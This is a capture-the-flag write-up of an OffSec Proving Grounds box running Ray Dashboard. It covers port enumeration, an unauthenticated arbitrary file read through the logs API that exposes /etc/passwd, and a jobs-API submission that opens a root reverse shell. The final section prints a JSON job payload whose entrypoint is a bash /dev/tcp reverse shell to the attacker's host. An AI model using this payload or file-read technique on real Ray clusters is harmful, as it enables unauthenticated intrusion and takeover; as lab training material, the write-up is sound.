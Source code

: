 ```yaml
---

title: CTF-200-06 (OffSec. Proving Grounds)
image: /assets/writeups/trace9.jpg
description: Write-up of CTF-200-06 Machine
date: 2023-12-29 09:00:00 -3000
categories: [proving grounds]
tags: [ray dashboard, CVE, insecure input validation, linux]
author: trace

---
```




## Enumeration:

```bash
nmap -sC -sV <IP>
```

```bash
rustscan -a 
```

![rustscanresult.png](../../assets/writeups/2023-12-27-CTF-200-06/rustscanresult.png)

quite a few ports open but it was just mainly port `22`, `9000`, & `52365`

#### Port 52365:

This had some `/log` file directory which had the same log as which i found later on in ray dashboard logs

#### Port 9000:

Port `9000` was running [Ray Dashboard](https://docs.ray.io/en/latest/ray-observability/getting-started.html) which is a web-based dashboard for monitoring and debugging Ray applications. The visual representation of the system state, allows users to track the performance of applications and troubleshoot issues.

![port9000.png](../../assets/writeups/2023-12-27-CTF-200-06/port9000.png)

then i visited `Logs` section of the dashboard in order to find something which can come in handy,

```xml
agent-424238335.err
agent-424238335.out
dashboard.err
dashboard.log
dashboard_agent.log
debug_state.txt
debug_state_gcs.txt
events/
gcs_server.err
gcs_server.out
job-driver-Bishop_Fox_00001.log
log_monitor.err
log_monitor.log
monitor.err
monitor.log
monitor.out
old/
python-core-driver-01000000ffffffffffffffffffffffffffffffffffffffffffffffff_1425.log
python-core-driver-02000000ffffffffffffffffffffffffffffffffffffffffffffffff_1713.log
python-core-driver-03000000ffffffffffffffffffffffffffffffffffffffffffffffff_1645.log
python-core-worker-63da3aaab00807e34fa09389d49d535de3a4dd09388cd9a002c59572_1728.log
python-core-worker-e39c5ba7728abce11978e4c5f262510de64e0146e07583dbe6173bd4_3913.log
python-core-worker-f003cfbbb1a3f94fbb9eecbe2f4f2ec41a4896c9587eae431f792661_1730.log
raylet.err
raylet.out
runtime_env_agent.log
runtime_env_setup-02000000.log
worker-63da3aaab00807e34fa09389d49d535de3a4dd09388cd9a002c59572-ffffffff-1728.err
worker-63da3aaab00807e34fa09389d49d535de3a4dd09388cd9a002c59572-ffffffff-1728.out
worker-e39c5ba7728abce11978e4c5f262510de64e0146e07583dbe6173bd4-02000000-3913.err
worker-e39c5ba7728abce11978e4c5f262510de64e0146e07583dbe6173bd4-02000000-3913.out
worker-f003cfbbb1a3f94fbb9eecbe2f4f2ec41a4896c9587eae431f792661-ffffffff-1730.err
worker-f003cfbbb1a3f94fbb9eecbe2f4f2ec41a4896c9587eae431f792661-ffffffff-1730.out
```

had tons of log files but i didn't find anything worth mentioning, so next I proceeded with looking for Potential Vulnerability in the Web Application running itself And I found it had [CVE-2023-48023,](https://nvd.nist.gov/vuln/detail/CVE-2023-48023) a remote code execution (RCE) vulnerability tied to missing authentication for a critical function; [CVE-2023-48022](https://www.cve.org/CVERecord?id=CVE-2023-48022), a server-side request forgery vulnerability in the Ray Dashboard API that enables RCE; and [CVE-2023-6021,](https://nvd.nist.gov/vuln/detail/CVE-2023-6021) an insecure input validation error that also enables a remote attacker to execute malicious code on an affected system.

## Getting Root:

An insecure input validation is present in the Ray Dashboard’s `/api/v0/logs/file` API endpoint. The endpoint accepts arbitrary filesystem paths and does not require authentication, only connectivity to the Ray Dashboard port (8265 by default). The vulnerability was exploited to obtain the SSH private key used by Ray to authenticate to all other nodes in the associated cluster.


To trigger the vulnerability, a valid `node_id` value was required. A `node_id` could be obtained in the Cluster section of the Ray Dashboard web app in the ID column of the Node List section. In the figure below, the ID of the head node


![nodefound.png](../../assets/writeups/2023-12-27-CTF-200-06/nodefound.png)

I obtained the node ID calling the Dashboard API `/nodes?view=summary`, there's an easy way to do it do is just look at the dashboard and you will find it

Once you have a valid `node_id` value included in the request, the Ray Dashboard API returns the content of any file accessible to the account the web application server is running as. For example, in response to a `curl` command, the API returns the content of the server’s `/etc/passwd` file, as you can see:

![etcpasswd.png](../../assets/writeups/2023-12-27-CTF-200-06/etcpasswd.png)

So, As stated in the blog post i mentioned above the researcher said that in a **typical AWS cloud install, one can find a bootstrap config file in the home directory of the ray user. This bootstrap config file contains various details such as the cluster settings, including the full filesystem path where an SSH key is stored.**

but that's the not the case here unfortunately i was able to retrieve the user private ssh key since every user was set to nologin :shrug: idk why?! maybe there's some other way where they need people to get in via webshell or something but anyways



I later on via this method got the `/usr/bin/python3 /opt/server-ml.py`

```python
import ray
import time
import os
import fcntl
import socket
import struct


def get_ip_addr(interface: str) -> str:
    # took it from https://gist.github.com/EONRaider/3b7a8ca433538dc52b09099c0ea92745
    """
    Uses the Linux SIOCGIFADDR ioctl to find the IP address associated
    with a network interface, given the name of that interface, e.g.
    "eth0". Only works on GNU/Linux distributions.
    Source: https://bit.ly/3dROGBN
    Returns:
        The IP address in quad-dotted notation of four decimal integers.
    """
    try:
        sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
        packed_iface = struct.pack('256s', interface.encode('utf_8'))
        packed_addr = fcntl.ioctl(sock.fileno(), 0x8915, packed_iface)[20:24]
        return socket.inet_ntoa(packed_addr)
    except Exception as e:
        print(f"An exception occurred while trying to get the ip addr: {e}")
        pass


curr_ip_addr = get_ip_addr("ens160")
#print(curr_ip_addr)

if curr_ip_addr.startswith("172."):
    # wait till it gets the correct ip addr
    while not curr_ip_addr.startswith("192."):
        curr_ip_addr = get_ip_addr("ens160")

time.sleep(3)

ray.init(dashboard_host="0.0.0.0", include_dashboard=True, dashboard_port=9000)

# ray dashboard is tied to the script life-cycle:)
while True:
    time.sleep(1)
```




lol, i didn't find it that interesting so i just moved ahead with a different approach and try to get the root shell


[Protect AI published a MetaSploit Framework module that exploits this technique along with their disclosure](https://github.com/protectai/ai-exploits/blob/main/ray/msfmodules/ray_job_rce.py), although they did not call out the lack of authentication as a vulnerability. Researcher Bryce Bearchell independently submitted two reports to Protect AI’s huntr platform (https://huntr.com/bounties/787a07c0-5535-469f-8c53-3efa4e5717c7/ and https://huntr.com/bounties/b507a6a0-c61a-4508-9101-fceb572b0385/) during the same time period that Bishop Fox reported the issue directly to Anyscale. However, the reports were closed based on Anyscale’s position that the behavior is by design, and therefore should not be perceived as a vulnerability.


The Ray Jobs Python SDK can also be used to execute code remotely without authentication. The arbitrary command execution is obtained by crafting a malicious Python script using the Ray API to submit a task and then calling this malicious script in the entrypoint parameter of the `JobSubmissionClient` object.
Also, the Ray Client API – exposed on TCP port `10001` by default – was vulnerable to unauthenticated remote code execution via a very similar technique but sadly we don't have it so i dropped that idea and went ahead with the different approach,


And this was pretty direct method of exploitation discovered is to submit arbitrary operating system commands for execution via the job submission API using a raw HTTP request or the Ray Jobs Python SDK. These do not require authentication in the default configuration, and are accessible remotely to any system with access to the Ray Dashboard (TCP port 8265 by default).


So now we craft a JSON job submission to execute the Linux shell command to get a reverse shell using `bash -i >& /dev/tcp/your_ip/your_port 0>&1`, sending the malicious JSON file to the jobs API, and then retrieving the output of the executed command like this:

![reverseshelljson.png](../../assets/writeups/2023-12-27-CTF-200-06/reverseshelljson.png)

> cat_passwd.json:

```json
{
  "entrypoint": "bash -c 'bash -i >& /dev/tcp/your_ip/your_port 0>&1'",
  "submission_id": "wtf",
  "runtime_env": {},
  "metadata": {},
  "entrypoint_num_cpus": 1,
  "entrypoint_num_gpus": 0,
  "entrypoint_resources": {}
}
```

and then we get a callback and we manage to pop a shell as root user

![gotrootshell.png](../../assets/writeups/2023-12-27-CTF-200-06/gotrootshell.png)


